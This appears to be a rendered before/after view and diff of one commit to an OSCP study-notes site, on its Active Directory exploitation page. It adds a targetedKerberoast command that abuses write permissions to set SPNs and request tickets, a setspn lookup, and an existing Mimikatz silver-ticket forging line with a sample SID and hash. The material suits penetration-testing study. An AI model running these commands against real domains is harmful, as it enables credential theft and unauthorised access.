

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/19_ad_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 2312 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add targetedkerberoast and fixes

````diff
--- a/docs/19_ad_exploitation.md
+++ b/docs/19_ad_exploitation.md
@@ -113,6 +113,16 @@ impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>
 .\Rubeus.exe kerberoast /nowrap
 ```
 
+## TargetedKerberoast
+
+This tool tries to set SPNs on users without one abusing write permission (like **GenericWrite**) on the `servicePrincipalName` attribute.
+
+> <https://github.com/ShutdownRepo/targetedKerberoast>
+
+```shell
+targetkerberoast.py -d <domain> -u <user> -p <pass> --request-user <target_user>
+```
+
 ## Silver Ticket
 
 Is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to gain unauthorized access to a specific service, bypassing the need to request a ticket from the Key Distribution Center (KDC) after initial authentication.
@@ -146,6 +156,9 @@ sekurlsa::logonpasswords
 # domain SID
 whoami /user
 # take everything except the last part; only the domain SID, not the user RID
+
+# target SPN
+setspn -L <account_name>
 
 # forge the ticket
 kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
````
Also changed, not shown: README.md (+1 -1 lines), docs/14_password_attacks.md (+8 -0 lines), docs/15_windows_privesc.md (+1 -2 lines).
